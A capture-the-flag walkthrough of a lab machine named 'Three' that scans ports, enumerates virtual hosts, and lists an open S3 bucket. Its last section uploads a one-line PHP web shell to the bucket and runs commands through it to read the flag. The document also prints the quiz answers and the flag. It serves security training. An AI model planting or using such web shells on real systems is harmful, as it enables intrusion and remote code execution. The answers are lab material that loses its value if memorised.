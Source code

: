 # Three

## Scan

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ nmap -sT 10.129.241.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 21:04 +07
Nmap scan report for 10.129.173.82
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.91 seconds
```

## Task 1: How many TCP ports are open?

answer: 2

based on the nmap scan result [above](#scan).

## Task 2: What is the domain of the email address provided in the "Contact" section of the website?

answer: `thetoppers.htb`

![alt mail domain](./img/three-mail-domain.png)

## Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

answer: `/etc/hosts`

add `thetoppers.htb` to `/etc/hosts`

```text
10.129.241.183 thetoppers.htb
```

## Task 4: Which sub-domain is discovered during further enumeration?

A Virtual Host (VH) is an Internet hosting service that allows organizations to host their websites on a single server. A VH can be used to host multiple websites, each with its own domain name, or it can be used to host multiple websites that share the same domain name. VHosts may or may not have public DNS records, so in order to access your site, you may need to change host names and addresses on your localhost (typically located in etc/hosts) or use the Host: header of a standard HTTP request.

use gobuster to enumerate sub-domain (vhost)

```bash
┌──(realkali㉿SeaDragnoL)-[/usr/share/seclists]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --appen
d-domain
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 1713 / 4990 (34.33%)^C
[!] Keyboard interrupt detected, terminating.
```

- `-w`: path to wordlist
- `-u`: target url
- `--append-domain`: Append main domain from URL to words from wordlist. Otherwise the fully qualified domains need to be specified in the wordlist.

answer: s3.thetoppers.htb

## Task 5: Which service is running on the discovered sub-domain?

add `s3.thetoppers.htb` to `/etc/hosts` too

```text
10.129.241.183 thetoppers.htb
10.129.241.183 s3.thetoppers.htb
```

Amazon Simple Storage Service (Amazon S3) is an object storage service that offers industry-leading scalability, data availability, security, and performance. You can use Amazon S3 to store and retrieve any amount of data at any time, from anywhere.

answer: Amazon S3

## Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?

Google search: interact with s3 services cli

answer: `awscli`

## Task 7: Which command is used to set up the AWS CLI installation?

answer: `aws configure`

```text
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws configure
AWS Access Key ID [None]: a
AWS Secret Access Key [None]: a
Default region name [None]: a
Default output format [None]: a
```

## Task 8: What is the command used by the above utility to list all of the S3 buckets?

answer: `aws s3 ls`

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 ls --endpoint=http://s3.thetoppers.htb
2023-01-16 12:38:35 thetoppers.htb
```

## Task 9: This server is configured to run files written in what web scripting language?

answer: php

![wappalyzer.png](./img/three-php.png)

## SUBMIT FLAG

use the `ls` command to list objects under specified bucket:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
                           PRE images/
2023-01-16 12:38:35          0 .htaccess
2023-01-16 12:38:36      11952 index.php
```

use the `cp` command to upload php payload:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ echo '<?php system($_GET["cmd"]); ?>' > payload.php

┌──(realkali㉿SeaDragnoL)-[~]
└─$ aws s3 cp payload.php --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
upload: ./payload.php to s3://thetoppers.htb/payload.php
```

find flag:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=ls
images
index.php
payload.php

┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=ls+..
flag.txt
html

┌──(realkali㉿SeaDragnoL)-[~]
└─$ curl http://thetoppers.htb/payload.php?cmd=cat+../flag.txt
a980d99281a28d638ac68b9bf9453c2b

┌──(realkali㉿SeaDragnoL)-[~]
└─$
```

## References

[subdomain vs vhost](https://dev.to/christianpaez/subdomains-vs-virtual-hosts-2e71)

[amazons3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html)

[awscli](https://docs.aws.amazon.com/cli/v1/userguide/cli-chap-welcome.html)
